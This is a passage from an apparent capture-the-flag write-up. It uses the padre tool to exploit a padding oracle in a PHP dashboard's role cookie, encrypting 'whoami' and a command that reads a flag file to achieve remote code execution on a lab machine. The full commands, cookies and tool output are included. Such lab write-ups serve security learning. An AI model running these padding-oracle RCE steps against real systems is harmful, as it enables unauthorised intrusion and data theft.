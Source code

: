 Now, we can encrypt `whoami` to check if we can achieve `rce`:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' -enc 'whoami'

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] /72bsovoJoFlZXNlZW5ibA== 
```

Now, let's try it and check the response:

![Pasted image 20250611145137.png](../../IMAGES/Pasted%20image%2020250611145137.png)

Nice, as seen we achieved RCE, let's get our final flag then:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' -enc "cat /home/ubuntu/flag.txt"

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] xIK95Ugkdek4rajb78dj6a8/m4PxZjfJxIPPCN2mrV5iZXNnZ2JmbA==
```
